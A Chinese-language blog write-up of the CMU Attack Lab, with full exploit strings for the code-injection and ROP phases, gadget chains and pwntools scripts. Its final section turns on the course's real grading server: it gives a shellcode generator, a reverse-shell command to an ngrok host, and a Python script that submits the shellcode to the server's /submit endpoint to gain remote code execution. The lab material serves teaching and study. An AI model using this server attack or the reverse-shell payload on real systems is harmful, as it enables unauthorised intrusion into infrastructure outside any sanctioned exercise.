










## 闲话

文档：[https://csapp.cs.cmu.edu/3e/attacklab.pdf](https://csapp.cs.cmu.edu/3e/attacklab.pdf)

文档中有以下几个关键点，单独记录一下：

<!-- @xprops background="gray" -->

> For the first three phases, your exploit strings will attack CTARGET. This program is set up in a way that the stack positions will be consistent from one run to the next and so that data on the stack can be treated as executable code. These features make the program vulnerable to attacks where the exploit strings contain the byte encodings of executable code.

做Phase 2的时候，预期解是把shellcode写到栈上，然后直接跳转到栈地址。注意这题并没给泄露栈的能力，目标栈地址是调试一遍得到的。题目没开ASLR因此本地栈地址是稳定的，但神奇的是远程也能用同一个栈地址打通。这是因为`ctarget`程序做了特殊处理，在`main`函数中进入的是`stable_launch`逻辑，会把栈设为一个地址固定的`mmap`申请出来的空间。（`rtarget`在`main`函数中就直接进入`launch`，因此栈地址本地和远程是不同的）

<!-- @xprops themeAdaptive -->



<!-- @xprops themeAdaptive -->



<!-- @xprops background="gray" -->

> You may only construct gadgets from file `rtarget` with addresses ranging between those for functions `start_farm` and `end_farm`。

`rtarget`需要用ROP，题目特意给出了一些gadgets，分布在地址`start_farm`和`end_farm`之间。之所以强调不让使用范围之外的gadgets，是因为和大多数pwn题不一样，这个lab服务端运行的评测程序与handout不一样，服务端专门编译了`rtarget-check`程序用于评测。给定范围之外的gadgets可能不一致，导致本地能打通，但服务端测评显示`invalid`。

<!-- @xprops themeAdaptive -->



自己做的时候就是因为没注意到这一点，用了很多范围之外的gadgets，导致Phase 4~5的解法只适用于`rtarget`程序（过不了服务端的`rtarget-check`）。

另外，并不能直接向服务器伪造“通关”请求，因为`notify_server`函数中`gets_buf`会被一起发送给服务端，服务端也会运行检查。

## Code Injection



### 攻击入口

```c
void __cdecl test()
{
    unsigned int v0; // eax

    v0 = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", v0);
}

unsigned int __cdecl getbuf()
{
    char buf[24]; // [rsp+0h] [rbp-18h] BYREF

    Gets(buf);
    return 1;
}
```

```text
; unsigned int __cdecl getbuf()
public getbuf
getbuf proc near

; __unwind {
sub     rsp, 18h
mov     rdi, rsp        ; dest
call    Gets
mov     eax, 1
add     rsp, 18h
retn
; } // starts at 401BCE
getbuf endp
```

攻击入口是存在栈溢出的`getbuf`函数，我拿到的程序pad为`24`字节。从汇编看`getbuf`，`sub rsp, 18h`开了`24`字节的空间给字符串`buf`，`call Gets`把数据写入`rsp`开头的空间，然后在`add rsp, 18h`后直接返回。`buf`之后紧跟着就是返回地址（这里没有保存`rbp`的指令）。

### Phase 1

Phase 1只要跳转到`touch1`函数，因此找到其地址`0x401BE4`，按照小端序写入`24`字节padding之后即可。

```text
/* pad to 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* address of touch1 */
e4 1b 40 00 00 00 00 00
```

### Phase 2

Phase 2要跳转到`touch2`函数，并且需要布置对应的参数（参数为整数）。目标值`cookie`在handout中给出了，就是文件`cookie.txt`，这里值为`0x2d8c0362`。

```c
void __fastcall __noreturn touch2(unsigned int val)
{
    vlevel = 2;
    if ( cookie == val )
    {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else
    {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

```text
; void __fastcall __noreturn touch2(unsigned int val)
public touch2
touch2 proc near

; __unwind {
sub     rsp, 8
mov     esi, edi
mov     cs:vlevel, 2
cmp     cs:cookie, edi
jz      short loc_401C4F
...
```

看到`val`是由寄存器`edi`传入，因此需要在跳转前改变`rdi`的值。由于这题关了NX而且栈地址被特意固定，可以考虑把shellcode写到栈上然后跳转。shellcode地址可以进入调试以后在`getbuf`下断点获取：



`0x5561b9e8`就是`buf`的首地址，因为向栈上写入了`24`字节的填充和`8`字节的shellcode地址，所以地址应为`0x5561b9e8 + 32 = 0x5561ba08`。

生成shellcode可以借助pwntools：

```python
from pwn import *

context.arch = "amd64"

shellcode = """
mov rdi, 0x2d8c0362
mov rax, 0x401c12
call rax
"""

print(asm(shellcode).hex(" "))
# 48 c7 c7 62 03 8c 2d 48 c7 c0 12 1c 40 00 ff d0
```

```text
/* pad to 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* address of shellcode */
08 ba 61 55 00 00 00 00

/* mov rdi, 0x2d8c0362 */
48 c7 c7 62 03 8c 2d

/* mov rax, 0x401c12 (address of touch2) */
48 c7 c0 12 1c 40 00

/* call rax */
ff d0
```

### Phase 3

Phase 3要跳转到`touch3`函数，并且需要布置对应的参数（参数为字符串）。`touch3`中通过。与Phase 2的区别是要多布置一个字符串，并把`rdi`指向字符串首地址。字符串会通过`hexmatch`函数与`cookie`比较，这里需要`cookie`的十六进制字符串（不含`0x`），也就是`"2d8c0362"`。

```c
void __fastcall __noreturn touch3(char *sval)
{
    vlevel = 3;
    if ( hexmatch(cookie, sval) )
    {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }
    else
    {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

```text
/* pad to 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* address of shellcode */
18 ba 61 55 00 00 00 00

/* cookie string "2d8c0362" */
32 64 38 63 30 33 36 32
00 00 00 00 00 00 00 00

/* mov rdi, 0x5561ba08 (address of cookie string) */
48 c7 c7 08 ba 61 55

/* mov rax, 0x401ce9 (address of touch3) */
48 c7 c0 e9 1c 40 00

/* call rax */
ff d0
```

这里格外注意的一点是，由于栈向低地址生长（也就是后续函数的栈帧会覆盖低地址栈空间），字符串`"2d8c0362"`不能布置在原`buf`的空间，因为会被`hexmatch`函数的栈帧覆盖掉。

## ROP



程序的攻击入口是一样的`getbuf`函数。

### Phase 4

如最前面所说，一开始做题的时候没注意，Phase 4~5用了gadget farm范围外的gadgets，而服务端有专用于测评的程序`rtarget-check`，无法保证与下发的`rtarget`程序找到的gadgets一致。因此这两题的解法过不了服务端的测评，重在学习ROP思路~

Phase 4和Phase 2要求目标一致，但是开启了NX（也没有泄露栈地址）因此无法注入shellcode来操纵`rdi`的值。找一个`pop rdi`gadget：

```bash
$ ROPgadget --binary ./rtarget | grep "pop rdi ; ret"
0x00000000004029e8 : pop rdi ; ret
```

```text
/* pad to 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* address of [pop rdi; ret] gadget */
e8 29 40 00 00 00 00 00

/* target value of rdi (cookie) */
62 03 8c 2d 00 00 00 00

/* address of touch2 */
12 1c 40 00 00 00 00 00
```

此处执行流程是：

1. `getbuf`读入`24`字节填充占满`buf`，其后`8`字节的返回地址本应为`test+14`（调用点），现在被覆盖为`0x4029e8`（gadget地址）
2. `getbuf`中`ret`执行，程序返回到gadget地址
3. gadget中`pop rdi`执行，`rdi`被设为布置在栈上的`0x2d8c0362`
4. gadget中`ret`执行，返回到`touch2`

### Phase 5

Phase 5和Phase 3的目标一样，都是布置一个字符串`"2d8c0362"`，并且将其地址作为参数传入`touch3`。Phase 5的难点在于栈地址不确定，即使把字符串布置在栈上，也没办法构造确切的地址。

这题思路是在众多gadget中找到一个任意写原语，比如：

```python
addr_gadget1 = 0x4029e8 # pop rdi; ret
addr_gadget2 = 0x401da6 # pop rax; nop; nop; nop; ret
addr_gadget3 = 0x4024c7 # mov qword ptr [rdi + 8], rax; ret
```

允许我们向`rdi + 8`地址写入`rax`的值。封装一个`create_poc`函数，可以构造一个任意写payload：

```python
def pad8(x):
    # pad8(0x123456) -> '56 34 12 00 00 00 00 00'
    return x.to_bytes(8, byteorder="little").hex(" ")

def create_poc(where, what):
    poc = "\n".join([
        pad8(addr_gadget1),
        pad8(where - 8),
        pad8(addr_gadget2),
        pad8(what),
        pad8(addr_gadget3),
    ])
    return poc
```

至于具体写到哪里，在`bss`段上找一段空白区写入字符串即可，这里用`0x408000`：

<!-- @xprops themeAdaptive -->



完整payload为：

```python
addr_gadget1 = 0x4029e8 # pop rdi; ret
addr_gadget2 = 0x401da6 # pop rax; nop; nop; nop; ret
addr_gadget3 = 0x4024c7 # mov qword ptr [rdi + 8], rax; ret

def pad8(x):
    # pad8(0x123456) -> '56 34 12 00 00 00 00 00'
    return x.to_bytes(8, byteorder="little").hex(" ")

def create_poc(where, what):
    poc = "\n".join([
        pad8(addr_gadget1),
        pad8(where - 8),
        pad8(addr_gadget2),
        pad8(what),
        pad8(addr_gadget3),
    ])
    return poc

where = 0x408000
addr_touch3 = 0x401ce9
cookie_hexstring = 0x3236333063386432 # "2d8c0362"

print(pad8(0))
print(pad8(0))
print(pad8(0))
print(create_poc(where, cookie_hexstring))
print(pad8(addr_gadget1))
print(pad8(where))
print(pad8(addr_touch3))
```

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e8 29 40 00 00 00 00 00
f8 7f 40 00 00 00 00 00
a6 1d 40 00 00 00 00 00
32 64 38 63 30 33 36 32
c7 24 40 00 00 00 00 00
e8 29 40 00 00 00 00 00
00 80 40 00 00 00 00 00
e9 1c 40 00 00 00 00 00
```

## 通过shellcode在服务器RCE

做Phase 2的时候在想，既然`ctarget`程序不开NX保护，可以执行shellcode，是不是可以RCE呢？

<!-- @xprops title="gen-shellcode.py" -->

```python
from pwn import *
import sys

context.arch = "amd64"

if len(sys.argv) < 2:
    cmd = "echo 'pwn'; id>/tmp/poc"
else:
    cmd = sys.argv[1]

shellcode = asm(
    shellcraft.execve(
        "/bin/bash",
        ["bash", "-c", cmd],
        0
    )
)

print(shellcode.hex(" "))
```

`gen-shellcode.py`封装了一个通用的命令执行`bash -c "..."`shellcode。把生成的shellcode拼接到Phase 2的解法中就可以，类似于：

```text
/* pad to 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* address of shellcode */
08 ba 61 55 00 00 00 00

/* shellcode here */
.. .. ..
```



本地测没问题。但是想要打到服务器，首先要理解`ctarget`/`rtarget`程序是怎么跟服务端通信的（也就是怎么实现记分板自动同步的）。当成功触发`touch1`/`touch2`/`touch3`函数时，会调用`validate`函数：

```c
void __cdecl __noreturn touch1()
{
    vlevel = 1;
    puts("Touch1!: You called touch1()");
    validate(1);
    exit(0);
}
```

`validate`函数内还会再调用`notify_server`函数发送HTTP请求到服务器，携带本地测评状态和完整的payload，然后服务端将重新运行提交的payload并记录评测分。可以通过逆向分析获取这个HTTP请求的结构，或者直接本地`tcpdump`抓一个包：

```bash
tcpdump -nn -A host <server_ip>
```



可以看到是对`/submit`端点的请求，携带的参数是测评状态和完整payload。运行时如果加入`-q`参数就表示不发送到服务器的请求。

当注入`execve`payload之后，即使移除`-q`参数，服务端也不会收到请求，这是因为`execve`会替换掉整个进程，导致控制流被劫持到shellcode、执行`execve`之后不再进入`touch3`函数，也就不再发送相应的HTTP请求。解决的办法就是直接带着构造好的payload发送HTTP请求到服务端。

理解上述过程后，就可以打服务端RCE了。以反弹shell为例，先用上面的`gen-shellcode.py`脚本生成对应shellcode：

```bash
python gen-shellcode.py "sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/23699 0>&1"
```

复制生成的payload字符串到`shellcode`变量，直接发送HTTP请求：

```python
import requests

url = "http://47.xxx.xxx.xxx:15514/submit"

padding = "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
addr_shellcode = "08 ba 61 55 00 00 00 00"

# ngrok tcp 4444
# python gen-shellcode.py "sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/23699 0>&1"
shellcode = "6a 68 48 b8 2f 62 69 6e 2f 62 61 73 50 48 89 e7 48 b8 01 01 01 01 01 01 01 01 50 48 b8 38 21 31 3f 27 30 01 01 48 31 04 24 48 b8 2e 69 6f 2f 32 33 36 39 50 48 b8 6a 70 2e 6e 67 72 6f 6b 50 48 b8 70 2f 30 2e 74 63 70 2e 50 48 b8 20 2f 64 65 76 2f 74 63 50 48 b8 73 68 20 2d 69 20 3e 26 50 48 b8 01 01 01 01 01 01 01 01 50 48 b8 63 60 72 69 01 2c 62 01 48 31 04 24 31 f6 56 6a 10 5e 48 01 e6 56 6a 15 5e 48 01 e6 56 6a 18 5e 48 01 e6 56 48 89 e6 31 d2 6a 3b 58 0f 05"

payload = " ".join([padding, addr_shellcode, shellcode])

params = {
    "user": "<username>",
    "course": "15213-f15",
    "result": f"150:PASS:0x2265d339:ctarget:2:{payload}",
}

r = requests.get(url, params=params)

print("status:", r.status_code)
print("url:", r.url)
print("body:", r.text)
```


